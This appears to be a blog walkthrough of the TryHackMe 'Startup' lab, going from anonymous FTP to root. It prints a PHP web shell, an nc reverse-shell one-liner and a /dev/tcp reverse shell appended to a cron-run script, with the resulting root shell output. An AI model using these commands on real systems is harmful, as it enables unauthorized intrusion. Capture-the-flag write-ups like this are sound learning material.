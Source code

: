 ```yaml
---
layout: post
title:  "THM: Startup"
date:   2020-11-09 21:00:00 +1100
category: hacking
---
```


## Introduction
*We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (incase you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you preform a thorough penetration test and try to own root. Good luck!.*

This is [Startup](https://tryhackme.com/room/startup) from TryHackMe. It's easy rated but I could use a win, okay?

## Ports
FTP, SSH and HTTP - all on their standard ports.

## FTP
FTP has anonymous access, and most importantly there is a subdirectory inside the FTP root directory called *ftp* which is writeable.

{% highlight shell %}
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 09 02:12 ftp [NSE: writeable]
|_-rw-r--r--    1 0        0             208 Nov 09 02:12 notice.txt
{% endhighlight %}

I use this to upload a basic PHP executor - the content is just:

``
<?php system($_GET['cmd']);?>
``

And I call it *cmd.phtml*. 

## HTTP
On the webserver we can find our file at http://10.10.4.167/files/ftp/ and then we can execute commands:

``
http://10.10.4.167/files/ftp/cmd.phtml?cmd=id
``

I get a reverse shell with Burp and [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

``
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
``

## www-data
Through some enumeration we find a directory called */incidents* and within that is a packet capture file. The easy exfiltration method is to copy it to the webserver:

``
www-data@startup:/incidents$ cp suspicious.pcapng /var/www/html/files/ftp/pcap.pcapng
``

From there we can download it and open it with wireshark.

Trawling through the pcap, we can find where someone else has gotten a shell on the box:

{% highlight shell %}
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:40:21 up 20 min,  1 user,  load average: 0.00, 0.03, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vagrant  pts/0    10.0.2.2         17:21    1:09   0.54s  0.54s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
--- Stuff removed for brevity ---
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: REDACTED
{% endhighlight %}

So now we have a password. We do have another user that looks interesting: *lennie*. Sure enough, we can *su lennie* with the password from the packet capture. 

## Lennie
Lennie can't run sudo, but he has some root owned stuff:

{% highlight shell %}
lennie@startup:~/scripts$ ls -lash
ls -lash
total 16K
4.0K drwxr-xr-x 2 root   root   4.0K Nov  9 02:13 .
4.0K drwx------ 4 lennie lennie 4.0K Nov  9 02:12 ..
4.0K -rwxr-xr-x 1 root   root     77 Nov  9 02:12 planner.sh
4.0K -rw-r--r-- 1 root   root      1 Nov  9 09:27 startup_list.txt
{% endhighlight %}

What do these do? Let's look one at a time.

### planner.sh
{% highlight shell %}
lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
{% endhighlight %}

### startup_list.txt
It's empty

### /etc/print.sh
{% highlight shell %}
lennie@startup:~/scripts$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "Done!"
{% endhighlight %}

Okay, so what do we have? The *planner.sh* script echoes the variable *LIST* into the *startup_list* file and then calls */etc/print.sh*, which echoes the text *Done!*. How can we use this?

If we watch the directory for a little bit, we can see the *startup_list.txt* timestamp changes every minute. So there is a cron job running that calls *planner.sh* every minute. So let's add a line to the */etc/print.sh* file:

``
lennie@startup:~/scripts$ printf "bash -i >& /dev/tcp/10.9.10.123/1235 0>&1\n" >> /etc/print.sh
``

And start a new listener ... 

{% highlight shell %}
root@kali:/opt/tryhackme/spicehut# nc -nvlp 1235
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 10.10.4.167.
Ncat: Connection from 10.10.4.167:40804.
bash: cannot set terminal process group (19455): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# cd /root
cd /root
root@startup:~# ls -lash
ls -lash
total 28K
4.0K drwx------  4 root root 4.0K Nov  9 02:15 .
4.0K drwxr-xr-x 26 root root 4.0K Nov  9 08:34 ..
4.0K -rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
4.0K drwxr-xr-x  2 root root 4.0K Nov  9 02:15 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   38 Nov  9 02:12 root.txt
4.0K drwx------  2 root root 4.0K Nov  9 02:10 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{GO GET IT YOURSELF}
{% endhighlight %}

Yes it was 'easy' but hey a win's a win. Thanks r1gormort1s.
